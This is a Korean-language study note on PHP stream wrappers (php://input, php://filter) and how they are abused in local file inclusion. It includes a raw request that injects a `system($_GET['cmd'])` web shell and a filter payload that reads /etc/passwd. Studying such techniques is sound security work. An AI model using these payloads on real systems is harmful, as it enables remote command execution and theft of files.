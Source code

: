 # PHP Stream Wrapper

## php://
PHP는 PHP 자체의 입출력 스트림, 표준 입출력, 오류 파일 서술자, 다른 파일 리소스를 읽고 쓸 때 조작할 수 있는 필터 등 여러 I/O 스트림을 제공한다.

### php://input
`php://input` 은 요청의 body 부분에서 원시 데이터를 읽을 수 있는 읽기 전용 스트림이다.

```
POST http://www.example.com?go=php://input&cmd=ls HTTP/1.1
Host: example.com
Content-Length: 30

<?php system($_GET["cmd"]); ?>
```

프록시 툴에서 위와 같이 요청을 보내면 PHP 구문이 삽입되고 `system()` 함수가 작동하여 디렉토리의 파일 리스트를 보여주게 된다. `http://` 또는 `file://` wrapper가 필터링 된 경우에 위와 같은 취약점을 이용할 수 있다.

### php://filter
`php://filter` 는 스트림을 열 때 필터를 적용할 수 있도록 설계된 meta-wrapper의 한 종류이다. 내용을 읽기 전에 필터를 적용할 수 없는 `readfile()` 이나 `file_get_contents()` 와 같은 함수들을 사용하는 경우에 유용하다.

`read` 파라미터에 필터를 적용하여 필터링된 파일의 내용을 읽을 수 있다. `resource` 파라미터는 필터링 할 파일을 의미한다. 파라미터들은 `/` 로 이어 체인을 형성할 수 있다. 예시는 다음과 같다.

```
php://filter/read=string.rot13/resource=/etc/passwd
```

아래에 나열된 필터들은 LFI에서 파일의 내용을 확인하기 위해 주로 사용하는 것들을 정리한 것이다.

#### String Filters
- string.rot13
- string.toupper
- string.tolower

각각 `str_rot13()`, `strtoupper()`, `strtolower()` 함수를 통해 모든 스트림 데이터를 처리하는 것과 동일하다.

#### Conversion Filters
- convert.base64-encode

`base64_encode()` 함수를 통해 스트림 데이터를 처리하는 것과 동일하다.

## References
- https://www.php.net/manual/en/wrappers.php.php
- https://www.netsparker.com/blog/web-security/php-stream-wrappers/
- https://www.aptive.co.uk/blog/local-file-inclusion-lfi-testing/
